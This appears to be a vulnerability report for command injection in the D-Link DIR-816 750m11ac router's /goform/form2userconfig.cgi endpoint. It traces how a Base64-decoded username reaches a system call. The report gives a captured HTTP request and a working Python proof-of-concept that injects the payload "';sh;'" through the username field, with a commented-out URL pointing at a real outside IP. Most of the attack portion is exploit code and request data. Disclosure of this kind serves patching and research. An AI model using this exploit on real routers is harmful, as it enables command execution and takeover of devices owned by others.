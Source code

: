 # report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router , 

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.

##### Details

​	goahead Sub_4566E0 ruction in IDA view

<img src="./img/image-20210819130609706.png" alt="image-20210819130609706" style="zoom:50%;" />

​	Select user account configuration under the maintenance option of router configuration.

<img src="./img/image-20210819142952276.png" alt="image-20210819142952276" style="zoom:50%;" />

​	The modified user name is processed through the webdecode64 function and passed to the dosystem function in the form of formatted parameters. Therefore, the user name is constructed for command injection.

```
POST /goform/form2userconfig.cgi HTTP/1.1

Host: 192.168.33.9

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 183

Origin: http://192.168.33.9

Connection: close

Referer: http://192.168.33.9/d_userconfig.asp

Cookie: curShow=

Upgrade-Insecure-Requests: 1



username=Jztsczsn&privilege=2&oldpass=&newpass=MTIz&confpass=MTIz&deluser=%E5%88%A0%E9%99%A4&select=s0&hiddenpass=192.168.33.9&submit.htm%3Fuserconfig.htm=Send&tokenid=304089172
```

​	The function uses Base64 to decode the received user name, so Base64 encoding is required.

<img src="./img/image-20210819133402633.png" alt="image-20210819133402633" style="zoom:50%;" />

<img src="./img/image-20210819133845707.png" alt="image-20210819133845707" style="zoom:50%;" />

​	 this vulnerability requires the user to have permission to configure the router

##### POC&&EXP

```python
import requests
import base64
headers={
	"Host":"192.168.33.9",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
	"Content-Type":"Content-Type",
	"Origin":"http://192.168.33.9",
	"Referer":"http://192.168.33.9/d_userconfig.asp",
	"Cookie":"curShow=",
	"Upgrade-Insecure-Requests":"1"
}
data={
	"username":base64.b64encode("';sh;'"),#input Command
	"privilege":"2",
	"oldpass":"123",
	"newpass":"MTIz",
	"confpass":"MTIz",
	"deluser":"\xe5\x88\xa0\xe9\x99\xa4",
	"select":"s0",
	"hiddenpass":"192.168.33.9",
	"submit.htm?userconfig.htm":"Send",
	"tokenid":"35005211"#Packet capture analysis
}
proxies={
'http':'127.0.0.1:8080',
'https':'127.0.0.1:8080'
}
#url="http://149.28.168.149/goform/form2systime.cgi"
url="http://192.168.33.9/goform/form2userconfig.cgi"
t=requests.post(url,headers=headers,data=data)
print t.text
```

##### TEST

​	First run our POC

<img src="./img/image-20210819160553286.png" alt="image-20210819160553286" style="zoom:50%;" />

​	GDB stops at the command we are about to execute

<img src="./img/image-20210819160627461.png" alt="image-20210819160627461" style="zoom:50%;" />

​	Successfully executed sh

<img src="./img/image-20210819161606757.png" alt="image-20210819161606757" style="zoom:50%;" />